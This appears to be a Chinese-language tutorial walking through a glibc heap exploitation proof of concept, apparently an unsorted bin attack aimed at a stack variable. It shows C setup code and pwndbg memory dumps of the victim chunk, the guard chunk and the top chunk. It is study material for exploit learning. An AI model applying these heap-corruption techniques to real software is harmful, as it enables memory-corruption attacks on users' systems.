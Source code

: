 ```c

```

## POC分析
在POC的开头打印出了我们需要控制的地址：stack_var（b 17->r）：

```c
	volatile unsigned long stack_var=0;
	fprintf(stderr, "Let's first look at the target we want to rewrite on stack:\n");
	fprintf(stderr, "%p: %ld\n\n", &stack_var, stack_var);
#Let's first look at the target we want to rewrite on stack:
#0x7fffffffddc8: 0
```

stack_var的内存状况如下：

```c
pwndbg> x/16gx &stack_var
0x7fffffffddc8:	0x0000000000000000	0x00007fffffffdec0
0x7fffffffddd8:	0x76f1b24f6509d200	0x0000555555554a60
0x7fffffffdde8:	0x00007ffff7a03bf7	0x0000000000000001
0x7fffffffddf8:	0x00007fffffffdec8	0x000000010000c000
0x7fffffffde08:	0x000055555555481a	0x0000000000000000
0x7fffffffde18:	0x442287353d921ff8	0x0000555555554710
0x7fffffffde28:	0x00007fffffffdec0	0x0000000000000000
0x7fffffffde38:	0x0000000000000000	0x1177d26012b21ff8
pwndbg> 
```

接下来我们创建两个堆块，其中第一个堆块当作我们的victim，第二个堆块是为了防止第一个堆块free后与top_chunk合并，可以遇见的是在free掉victim堆块之后它会进入到unsortedbin中；另外第一个堆块的大小不能属于tcachebin和smallbin（b 24->c）：

```c
	unsigned long *p=malloc(0x410);
	fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %p\n",p);
	fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()\n\n");
	malloc(500);

	free(p);
```

结果如下：

```c
pwndbg> x/300gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcachebin
......
0x555555757250:	0x0000000000000000	0x0000000000000421 #chunk_victim
0x555555757260:	0x00007ffff7dcdca0	0x00007ffff7dcdca0
......
0x555555757670:	0x0000000000000420	0x0000000000000200 #chunk--avoid top_chunk
......
0x555555757870:	0x0000000000000000	0x0000000000020791 #top_chunk
......
0x555555757950:	0x0000000000000000	0x0000000000000000
pwndbg>
```
